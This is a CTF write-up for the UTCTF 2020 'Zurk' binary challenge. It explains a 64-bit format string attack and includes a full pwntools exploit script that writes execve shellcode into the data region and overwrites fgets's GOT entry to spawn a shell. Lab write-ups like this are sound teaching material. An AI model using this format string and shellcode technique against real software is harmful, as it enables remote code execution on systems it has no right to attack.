 ```yaml
---
layout: post
title: UTCTF 2020 | Zurk Writeup
author: adamt
---
```


My writeup of the Zurk binary challenge.

# Challenge Desc

Zurk was a binary exploitation challenge in UTCTF 2020 which was a 64 bit format string where the attacker controlled a buffer of isze 50 with a call to fgets() passed directly to printf().

The binary had NX disabled and no PIE. However ASLR was enabled.

```c
checksec ./zurk

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

The call to fgets() is problematic as fgets() stops reading at a NULL byte. All addresses in 64 bit pages have leading NULL bytes. This means we can not easily pass addresses into our buffer (or pass in multiple addresses as would be needed by a format string attack).


# Thoughts

There are 2 main thoughts to solve this challenge.

1. Overwrite a GOT address to point to system in libc
   a. This is going to be a problem, as our buffer is really small, if we were to write 2 bytes at a time, we would need 4*8=32 characters just for our addresses alone, meaning just 18 characters to do 4 writes with a format string.
2. Overwrite a GOT address to point to our own shellcode in the data region of the binary
   a. This is nicer because we can write out the shellcode over mutliple seperate writes
   b. Since PIE is disabled, the data region starts at 0x600100, this means we only need to write a 4byte address to the GOT, which is half the size of our previous option. We can probably fit this into our buffer as well.

## How do we get addresses into our buffer

So we can't just write addresses into our buffer, because of this whole NULL byte thingo. But reading through the dissassembly of the program, there is this interesting codepath.

```c
mov rdi, buffer
mov rsi, '\n'
call strcspn
mov [ret], 0x0
```

This is replacing the new line in our string with a null byte. We can use this to NULL out the entire buffer by.

1. Write a string of length buffer_size, the last value in our buffer gets set to NULL
2. Write a string of length buffer_size - 1, the second last value is set to NULL
3. continue

Sample code:
```python
 for i in range(0x30, 1, -1):
     send("A" * i)
```

After we do this, we can write our address (since it only has leading NULL bytes).

# Solution

```python
#!/usr/bin/python3
from pwn import *

PROGNAME   = "./zurk"
REMOTEIP   = "binary.utctf.live"
REMOTEPORT = 9003

# execve(/bin/sh)
SHELLCODE = ["\x31\xF6\x56\x48", "\xBB\x2F\x62\x69",
        "\x6E\x2F\x2F\x73", "\x68\x53\x54\x5F",
        "\xF7\xEE\xB0\x3B", "\x0F\x05\x00\x00"]


libc = ELF("./libc-2.23.so")
p = remote(REMOTEIP, REMOTEPORT)
elf = ELF(PROGNAME)

def talk(msg):
    p.sendlineafter("What would you like to do?\n", msg)

    until = " is not a valid instruction.\n"
    return p.recvuntil(until)[:-len(until)]

def leak_addr(addr):
    payload = b"%7$s".ljust(8, b' ')
    leak = talk(payload + p64(addr))

    # Get ride of spaces :P
    leak = leak.replace(b' ', b'\x00')[:8]
    leak = leak.rjust(8, b'\x00')

    return u64(leak)

# In order to write null bytes, we take advantage
# of the program replacing newlines with NULLs
def clear_stack():
    for i in range(0x30, 1, -1):
        print(".", end='')
        talk("A" * i)
    print("")

def do_write_4_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()

    value_h = value & 0xFFFFFFFF
    value_h1 = value_h >> 16
    value_h2 = value_h & 0xFFFF

    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 2).rjust(32, b' ')) + b'a'

    payload = f"%{value_h1}c%9$hn"
    talk(payload)
    payload = f"%{value_h2}c%11$hn"
    talk(payload)

def do_write_8_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()


    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 4).rjust(32, b' ')) + b'a'

    payload = f"%9$n%{value}c%11$n"
    talk(payload)



# put our shellcode at 0x601500
ADDR = 0x60110B  # Dont start at 00, we dont want 0x0a in our addr
do_write_4_bytes(ADDR + 4, u32(SHELLCODE[1]))
do_write_4_bytes(ADDR + 8, u32(SHELLCODE[2]))
do_write_4_bytes(ADDR + 12, u32(SHELLCODE[3]))
do_write_4_bytes(ADDR + 16, u32(SHELLCODE[4]))
do_write_4_bytes(ADDR + 20, u32(SHELLCODE[5]))
do_write_4_bytes(ADDR, u32(SHELLCODE[0]))

do_write_8_bytes(elf.got["fgets"], ADDR)

p.interactive()

```
